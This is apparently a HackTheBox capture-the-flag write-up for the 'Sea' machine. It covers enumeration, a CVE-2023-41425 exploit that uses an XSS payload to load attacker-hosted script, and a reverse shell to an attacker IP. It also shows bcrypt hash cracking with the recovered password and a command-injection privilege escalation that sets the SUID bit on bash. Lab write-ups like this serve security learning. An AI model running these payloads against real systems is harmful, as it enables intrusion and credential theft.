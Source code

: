 ```yaml
---
title: Sea
tags:
  - Linux
  - CVE
  - Brute-Forcing
  - Tunnelling
  - Command-Injection
  - HackTheBox
  - Easy
---
```

![](Pasted%20image%2020240901173921.png)

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.28 sea.htb" | sudo tee -a /etc/hosts
```

Then, I performed an Nmap scan:

```shell
nmap -sC -T4 -p- sea.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http
|_http-title: Sea - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

So I took a look at the webpage:

![](Pasted%20image%2020240901174311.png)

After some inspection, I decided to perform a subdomain scan using [Ffuf 🐳](/notes/tools/Ffuf.md) and a [dirsearch 📁](/notes/tools/dirsearch.md) scan, but I didn't found anything, so I took a look back to the webpage and discover the `contact.php` endpoint:

![](Pasted%20image%2020240901175856.png)

After some tries of XSS and SQLi, I got anything, so i went back to further enumeration again with dirsearch:

```shell
[redacted]
dirsearch -u http://sea.htb/themes/bike -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

[redacted]
[18:03:05] 301 -  239B  - /themes/bike/img  ->  http://sea.htb/themes/bike/img/
[18:03:05] 200 -    1KB - /themes/bike/home                                 
[18:03:06] 200 -    6B  - /themes/bike/version                              
[18:03:06] 404 -    3KB - /themes/bike/Home                                 
[18:03:07] 301 -  239B  - /themes/bike/css  ->  http://sea.htb/themes/bike/css/
[18:03:09] 200 -   66B  - /themes/bike/summary                              
[18:03:11] 200 -    1KB - /themes/bike/404                                  
[18:03:17] 200 -    1KB - /themes/bike/LICENSE                              
[18:03:51] 404 -    3KB - /themes/bike/HOME                                 
[18:04:27] 404 -    3KB - /themes/bike/_home                                
[18:04:37] 404 -  269B  - /themes/bike/http%3A%2F%2Fwww
```

I inspected the LICENSE and version (3.2.0):

![](Pasted%20image%2020240901180835.png)

So I decided to take a look at `turboblack` on the Internet:
- [HamsterCMS](https://github.com/turboblack/HamsterCMS)

## Weaponization

Then I searched for *"hamster cms 3.2.0 exploit"* and got [CVE-2023-41425](https://github.com/thefizzyfish/CVE-2023-41425-wonderCMS_RCE)

## Exploitation

Execute the script like:

```shell
python3 exploit.py http://sea.htb/loginURL 10.10.14.60 9001
```

Now set up a netcat listener at port 9001 and paste the following in the url of the form:

```sh
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.60:8000/xss.js"></script><form+action="
```

![](Pasted%20image%2020240901213141.png)

Now perform the following curl request:

```shell
curl "http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.60&lport=9001"
```

> We've got a reverse shell :D

![](Pasted%20image%2020240901213259.png)

Stabilize the shell:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

Unfortunately, we can't read user flag, so I decided to further inspect the machine. Inside the `/var/www/sea/data` I found a file called `database.js`, which contained a password hash:

```shell
www-data@sea:/var/www/sea/data$ cat database.js 
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/09\/01 19:38:45": "127.0.0.1",
            "2024\/09\/01 19:36:45": "127.0.0.1",
            "2024\/09\/01 19:29:44": "127.0.0.1",
            "2024\/09\/01 19:29:14": "127.0.0.1",
            "2024\/09\/01 19:27:44": "127.0.0.1"
        },
        "lastModulesSync": "2024\/09\/01",
        "customModules": {
            "themes": {},
            "plugins": {}
        },
        "menuItems": {
            "0": {
                "name": "Home",
                "slug": "home",
                "visibility": "show",
                "subpages": {}
            },
            "1": {
                "name": "How to participate",
                "slug": "how-to-participate",
                "visibility": "show",
                "subpages": {}
            }
[redacted]
```

Inspecting [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes), `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q` seems to be bcrypt. So I tried to crack that hash:

```shell
hashcat -m 3200 '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q' /usr/share/wordlists/rockyou.txt
```

After a long time arguing why it didn't work, I noticed that the `/` were escaped, so just set the command like:

```shell
hashcat -m 3200 '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' /usr/share/wordlists/rockyou.txt
```

Bingo! `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
`
> I got user flag :D

![](Pasted%20image%2020240901215438.png)

## Privilege escalation

Now it's time to run linpeas and see possible PE. I noticed that port 8080 was in use, so I decided to make a port forwarding to my machine:

![](Pasted%20image%2020240901215737.png)

In my machine I ran:

```shell
ssh -L 1010:127.0.0.1:8080 -N amay@sea.htb
```

Now I visited  the new port available:

![](Pasted%20image%2020240901220115.png)

And I used the machine credentials: `amay:mychemicalromance`:

![](Pasted%20image%2020240901220157.png)

Let's try to analyze the request of the **Analyze** button:

![](Pasted%20image%2020240901220631.png)

If we send the petition to the repeater, we can try to perform a command injection:

Command: `chmod u+s /bin/bash`

![](Pasted%20image%2020240901220855.png)

> We can now become root and obtain root flag

![](Pasted%20image%2020240901221038.png)

==Machine pwned==

